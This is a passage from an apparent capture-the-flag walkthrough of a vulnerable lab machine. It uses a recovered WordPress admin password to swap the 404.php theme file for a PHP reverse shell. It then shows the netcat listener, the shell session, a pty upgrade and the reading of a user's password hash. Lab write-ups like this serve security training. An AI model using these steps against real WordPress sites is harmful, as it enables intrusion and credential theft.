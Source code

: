 We have found the password, and it's `ER28-0652`. Even better our friend `elliot` is a WordPress admin.

## 2. Getting a Shell
Since `elliot` is a WordPress admin we should be able to modify the `404.php` page to give us a [reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). This can be done by going to `Appearance` > `Editor` and replace the contents of `404.php` with the modified reverse shell.

<div class="note info">
<p>Make sure you change the IP and PORT in the php file</p>
</div>

Save your changes and setup a listener using `netcat` on the port specifed. Once a request is made to a non-existant page our reverse shell should be open.

```
root@kali:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40502
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 21:52:04 up  1:46,  0 users,  load average: 0.00, 0.06, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

Doing some further enumeration on the web server
```
daemon@linux:~$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ pwd
pwd
/home
daemon@linux:/home$ clear
clear
TERM environment variable not set.
daemon@linux:/home$ cd /
cd /
daemon@linux:/$ cd /home	
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot	
cd robot
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5	
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 
```
